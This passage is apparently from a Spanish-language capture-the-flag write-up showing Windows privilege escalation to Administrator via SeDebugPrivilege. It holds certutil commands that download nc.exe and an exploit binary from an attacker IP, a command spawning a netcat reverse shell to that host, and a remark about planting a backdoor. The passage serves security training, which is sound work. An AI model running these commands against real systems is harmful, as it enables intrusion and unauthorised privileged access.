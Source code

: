 Como segundo paso subiremos el `nc.exe` y tambien `SeDebugPrivesc.exe` 

```python
PS C:\Users\alaading\files> certutil.exe -urlcache -split -f 'http://10.10.16.4/nc.exe' nc.exe
PS C:\Users\alaading\files> certutil.exe -urlcache -split -f 'http://10.10.16.4/SeDebugPrivesc.exe' SeDebugPrivesc.exe
```

Teniendo el `PID`, lo que haremos será ejecutar `SeDebugPrivesc.exe`  

```python
PS C:\> SeDebugPrivesc.exe  552  "c:\Users\alaading\files\nc.exe 10.10.16.4  444 -e cmd.exe"
```

![20240312123818.png](20240312123818.png)

Antes debemos de ponernos a la escucha con `ncat`

![20240312123908.png](20240312123908.png)

## Usuario : Administrator

Luego tenemos una shell privilegiada y podemos habilitar cierto puerto, asi conectarnos o colocando un backdoor. 

![20240312123926.png](20240312123926.png)

